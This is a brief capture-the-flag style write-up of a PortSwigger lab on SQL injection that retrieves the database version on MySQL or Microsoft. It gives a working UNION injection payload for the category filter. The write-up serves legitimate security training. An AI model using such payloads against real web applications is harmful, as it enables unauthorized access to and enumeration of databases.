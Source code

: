 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
## Task
This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Solution
Steps to solve this lab is pretty similar to the [previous one](https://github.com/datthinh1801/Writeups/blob/main/PortSwigger/SQL%20Injection/Lab%2007.md), except the final payload is:
```sql
/filter?category=Gifts'+UNION+SELECT+@@version,NULL#
```

![image](https://user-images.githubusercontent.com/44528004/130066778-f3136d65-68ce-480c-bc6d-e580342b01bd.png)
> Solved!
